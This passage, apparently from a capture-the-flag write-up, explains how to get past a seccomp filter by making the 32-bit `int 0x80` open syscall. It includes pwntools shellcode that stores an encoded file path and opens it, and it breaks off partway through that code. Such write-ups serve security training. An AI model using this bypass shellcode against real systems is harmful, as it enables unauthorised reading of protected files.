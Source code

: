 ![open-x86.png](images/open-x86.png)

And rax value of 5 is allowed because in seccomp (base on 64 bit), the value of rax is 5 is syscall `fstat` which is allowed in seccomp:

![fstat-x86-64.png](images/fstat-x86-64.png)

So we will set eax, ebx, ecx, edx and use `int 0x80` to open the file. Shellcode will be updated as:

```python
shellcode = asm('''
	mov rbp, 0x404500
	mov rdx, 8386599043768215599
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 8371742425456455526
	mov [rbp], rdx
	add rbp, 8
	mov rdx, 29816
	mov [rbp], rdx
	sub rbp, 0x10

	mov rbx, rbp
	mov rcx, 0
	mov rdx, 0
	mov rax, 5
	int 0x80
```